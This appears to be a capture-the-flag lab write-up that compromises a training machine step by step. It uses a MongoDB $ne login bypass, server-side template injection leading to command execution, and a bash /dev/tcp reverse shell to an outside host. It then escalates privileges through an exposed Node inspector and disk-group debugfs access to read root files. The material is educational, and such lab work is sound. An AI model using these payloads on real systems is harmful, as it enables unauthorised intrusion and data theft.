



# Scenario



# Questions



---

## Reconnaissance

Scan for open ports using `rustscan`

Ports 22 (SSH) and 80 (HTTP) are open.





So, let's check the website first.





---

## Login Bypass

`curl -i -s -c cookie.txt -d 'username=attendant&password[$ne]=x' http://10.48.173.139/login`

If the server is vuln and directly uses the parsed input in a `MongoDB` query,

this turns 

```js
{ username: "attendant", password: "x" }
```

into 

```js
{ username: "attendant", password: { $ne: "x" } }
```

meaning **"find the `attendant` user whose password is not `x`."**

If such a query is accepted without proper validation, it can potentially result in **authentication bypass**.



We got a cookie at the `/staff `location



---

## Template Injection

Now, we're gonna perform **template injection**

```bash
 curl -s -b cookie.txt --data-urlencode 'template=<%=7*7%>' http://10.48.173.139/staff/preview
```



and we can see that they accept our injected template. So, now let's inject another template to do a **reverse shell**

```bash
curl -s -b cookie.txt --data-urlencode 'template=<%=global.process.mainModule.require("child_process").execSync("id").toString() %>' http://10.48.173.139/staff/preview
```




```bash
curl -s -b cookie.txt --data-urlencode "template=<%= global.process.mainModule.require('child_process').execSync('bash -c \"bash -i >& /dev/tcp/192.168.141.248/4444 0>&1\"').toString() %>" http://10.48.173.139/staff/preview 
```

---

## Reverse shell






Found the first flag at `/home/poolside/user.txt`



---

## Node Debugger

and we found the `processor.js` file



and this is running in a loop, so this means it keeps running in the background



The process is listening for debugging on `127.0.0.1:9229`. Since we already have a shell on this machine, let's connect to that debugger.

We found that it uses **port 9229** with the **--inspect** flag and connects using node

So, we will use the following commands 

```bash
node inspect 127.0.0.1:9229
repl
# validate
process.getuid()
process.getgid()
process.cwd()
process.getBuiltinModule('child_process').execSync('id').toString()
process.getBuiltinModule('child_process').execSync("ls -l /dev/sd* /dev/vd* /dev/nvme* /dev/mapper/* 2>/dev/null || true").toString()
```



The debugger runs our commands as `pipelinesvc`, and `id` shows this account belongs to the `disk` group. So, we now have a different user's permissions through the Node process.

It shows we are in the disk group.



---

## Read the Root Flag

The disk group can access `/dev/nvme0n1p1` directly. Let's use `debugfs` to read the filesystem on that partition and look inside `/root`.


```bash
process.getBuiltinModule('child_process').execFileSync('/usr/sbin/debugfs', ['-R', 'ls /root', '/dev/nvme0n1p1'], { encoding: 'utf8' })
```



find `root.txt`

```bash
process.getBuiltinModule('child_process').execFileSync('/usr/sbin/debugfs', ['-R', 'cat /root/root.txt', '/dev/nvme0n1p1'], { encoding: 'utf8' })
```



Finally, get the flag!

---
